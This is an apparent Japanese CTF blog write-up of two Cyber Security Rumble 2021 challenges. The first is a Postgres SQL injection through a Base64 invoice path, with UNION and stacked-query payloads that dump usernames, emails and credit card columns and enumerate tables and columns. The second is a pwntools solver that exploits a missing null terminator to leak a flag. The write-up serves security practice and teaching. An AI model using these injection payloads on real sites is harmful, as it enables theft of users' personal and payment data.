

2021/11/26から開催されていたCyber Security  Rumble 2021 CTFに参加してきました。

いくつかWriteUpを書いていきます。

<!-- omit in toc -->
## もくじ
- [Stonks Street Journal(Web)](#stonks-street-journalweb)
	- [SQLインジェクションで他のユーザの情報を取得する](#sqlインジェクションで他のユーザの情報を取得する)
	- [SQLインジェクションで他のテーブルを探索する](#sqlインジェクションで他のテーブルを探索する)
	- [SQLインジェクションでカラムの情報を探索する](#sqlインジェクションでカラムの情報を探索する)
- [Flag Checker, Baby(Pwn)](#flag-checker-babypwn)
- [まとめ](#まとめ)

## Stonks Street Journal(Web)

Webサイトにアクセスすると、会員制のニュースニュースサイトにアクセスできます。

会員登録を行うと、ユーザ登録は完了しないものの、登録情報が確認できるInvoiceページにリダイレクトされます。

このページは、以下のようなURLでアクセスされるページであり、`username-2021-11-27`のような登録ユーザと日付をBase64エンコーディングしたパスで管理されています。

`http://ssj.rumble.host/legacy_invoice_system/dGVzdHVzZXItMjAyMS0xMS0yNw==`

ここで、usernameの部分か日付の部分をフォーマットに合わない適当な文字列に変更してみたところ、SQL文のエラーが発生したため、SQLインジェクションの脆弱性が存在することがわかりました。

### SQLインジェクションで他のユーザの情報を取得する

まずはテーブル内の他のユーザの情報を探索するところから始めました。

探索にはUNIONインジェクションが使えそうでした。

ユーザを管理しているテーブル名についてはWHEREやHAVINGなどのコマンドを使ってエラーメッセージを出力させることで、`news_subscriber`であるということが特定できました。

``` sql
Rakete-2021-11-26' UNION SELECT id,username,null,pensi,email,credit_card,null FROM news_subscriber WHERE id=10--
```

そのため、上記のようなコマンドでIDやUsernameを指定してユーザページを一つずつ確認することができます。

しかし、残念ながら`news_subscriber`のテーブルをすべて探索しても、Flagにつながりそうなユーザは存在しませんでした。

### SQLインジェクションで他のテーブルを探索する

次に、`news_subscriber`以外のテーブルを見つけるべく、探索を行うことにしました。

``` sql
Rakete-2021-11-26' UNION SELECT id,version(),null,null,null,null,null FROM news_subscriber
```

データベースの種類については、上記のように`version()`コマンドを利用することで、Postgresであることが特定できました。

データベースがPostgresであるので、テーブル情報については`pg_tables`の`tablename`から参照することができます。

取得方法はいくつかありますが、先頭から順に網羅するなら`LIMIT 1 OFFSET n`の構文が便利です。

また、特定の文字列を含むテーブルを探索したい場合には`LIKE`も有効です。

``` sql
# 6番目のテーブルをSQLインジェクションで取得
Rakete-2021-11-26';SELECT null,tablename,null,null,null,null,null FROM pg_tables LIMIT 1 OFFSET 6;--

# テーブル名にnameが含まれるテーブルをSQLインジェクションで取得
Rakete-2021-11-26';SELECT null,tablename,null,null,null,null,null FROM pg_tables WHERE tablename LIKE '%name%';--
```

上記の方法でテーブルを探索した結果、`news_article`というテーブルが見つかりました。

### SQLインジェクションでカラムの情報を探索する

Flagはどうやら`news_article`テーブルに存在していそうだということがわかりました。

そのため、`news_article`テーブルのカラムについて探索していきます。

Postgresの場合、特定のテーブルのカラムの情報は`information_schema.columns WHERE table_name='news_article'`の形式で絞りこむことができます。

あとは先ほどテーブル情報を取得したときと同じく、LIMITやLIKEを使ってカラムの情報を洗い出した後、UNIONインジェクションを用いてカラムの情報を取得することで、Flagを取得できます。

``` sql
Rakete-2021-11-26';SELECT null,column_name,null,null,null,null,null FROM information_schema.columns WHERE table_name='news_article' AND column_name LIMIT 1 OFFSET 3;--

Rakete-2021-11-26';SELECT null,column_name,null,null,null,null,null FROM information_schema.columns WHERE table_name='news_article' AND column_name LIKE '%te%'--
```

この方法を用いることで、以下のようにInvoiceページのタイトルからFlagの情報を取得することができました。



参考：[Stonks Street Journal - CTFs](https://ctf.zeyu2001.com/2021/cybersecurityrumble-ctf/stonks-street-journal)

## Flag Checker, Baby(Pwn)

バイナリとソースコードが与えられます。

ソースコードを読むと、以下の挙動になることがわかります。

1. 入力された文字列とFLAGをcheck関数に渡す
2. 入力された文字列が32バイト(guessのサイズ)より大きい場合は、関数は呼び出されない
3. 変数guessには、入力した文字列が格納される
4. 変数flagには、FLAGが格納される
5. 変数flagと変数guessはstrcmpで比較され、一致した場合はフラグが表示され、不一致の場合はguessの値が表示される
6. ローカル変数のメモリアドレスを考えると、変数flagは変数guessの後に連結して配置されている
7. guess変数は32バイトまでしか受け取れないので、32バイト分のヌル文字を含まない値を入力することで、`printf("Wrong flag: %s\n", guess);`の行に連結された変数guessと変数flagの値が出力される。

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void check(const char *input, const char *secret_flag) {	
	char guess[32], flag[64];
	if (strlen(input) > sizeof(guess)) {
		puts("HACKER!");
		return;
	}

	strncpy(guess, input, sizeof(guess));
	strncpy(flag, secret_flag, sizeof(flag));
	if (!strcmp(guess, flag)) {
		printf("Well done! You got it: %s\n", flag);
	}
	else {
		printf("Wrong flag: %s\n", guess);
	}
}

int main(int argc, char** argv) {
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);

	char *secret_flag = getenv("FLAG");
	if (!secret_flag) {
		puts("Flag not found, contact challenge authors.");
		return 1;
	}

	char input[128];
	printf("Enter the flag: ");
	fgets(input, sizeof(input), stdin);
	check(input, secret_flag);

	return 0;
}
```

このSolverでFLAGを取得できます。

``` python
from pwn import *
import binascii
import time

elf = ELF("./chall")
context.binary = elf

payload = b"\x41"*31

# Local
p = process("./chall")
# p = remote("challs.rumble.host", 53921)

r = p.recv()
p.sendline(payload)
p.interactive()
```

参考：[CTF-writeups/Pwn - Flag Checker, Baby.md at main · aly-ab/CTF-writeups](https://github.com/aly-ab/CTF-writeups/blob/main/notes/cybersecurityrumble/Pwn%20-%20Flag%20Checker%2C%20Baby.md)

## まとめ

Revの問題にLinuxのGame問題があったので何とか解きたかったのですが、結局解くことができませんでした。

WriteUpが見当たらないのでいまだに謎のままですが、もしWriteUpが見つかればこの記事も更新しようと思います。
